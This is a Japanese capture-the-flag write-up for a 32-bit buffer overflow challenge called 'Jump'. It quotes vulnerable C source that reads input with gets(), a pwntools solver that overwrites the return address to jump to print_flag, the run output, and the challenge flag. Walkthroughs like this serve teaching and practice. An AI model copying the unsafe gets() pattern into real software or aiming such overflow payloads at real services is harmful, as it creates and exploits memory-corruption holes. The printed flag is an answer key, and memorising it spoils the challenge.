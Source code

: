 ## Jump (320pt / 37 solves) [★★☆☆]
> ソースコードを見て、フラグを取得してください。
> 
> 
> ただし、以下の条件で動作しています。
> 
> - スタック保護機能（Stack Canary）は無効です。
> - 位置独立実行形式（PIE）は無効です。
> - 本問題は32bit i386環境を前提としています。
> - スタックのアラインメントは4バイトに設定されています。
> - print_flag 関数は必ず `0x21466F42` にロードされます。
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8102` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: Jump.zip
> 
> ZIPのハッシュ値(SHA256): `1a23095d9408b4c9876a813804cb9ccd571752fc20e7fec4625b0b9d5b30822e`

ソースコードが配布されているので見てみる。
```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((section(".flag"))) print_flag() {
    char flag[64] = { 0 };
    FILE* fp = fopen("flag.txt", "r");
    if (!fp) {
        printf("An error occurred while opening the file\n");
        exit(1);
    }
    fread(flag, 1, 64, fp);
    printf("Congratulations! Here's the flag: %s\n", flag);
    exit(0);
}

void greet() {
    char name[16] = { 0 };
    gets(name);
    printf("Hi, %s!\n", name);
}

int main() {
    printf("Tell me your name! : ");
    fflush(stdout);
    greet();
    return 0;
}
```

何の種も仕掛けもない典型的BOF問題。Stack CanaryもPIEもないので、セオリー通りオフセットを調べてリターンアドレスを`0x21466F42`に書き換えればOK。
ソルバはこんな感じになった。
```python
from pwn import *

target = './jump'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

addr_print_flag = 0x21466F42

proc = remote(target_ip, 8102)

payload = b'A' * 20
payload += pack(addr_print_flag)

proc.sendlineafter('Tell me your name! : ', payload)

proc.interactive()
```

```
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAABoF!!
Congratulations! Here's the flag: flag{80F_JUMP_70_FUNC710N}
```

`flag{80F_JUMP_70_FUNC710N}`

アドレスが`BoF!`のASCII（のリトルエンディアン）になっているという遊び心。
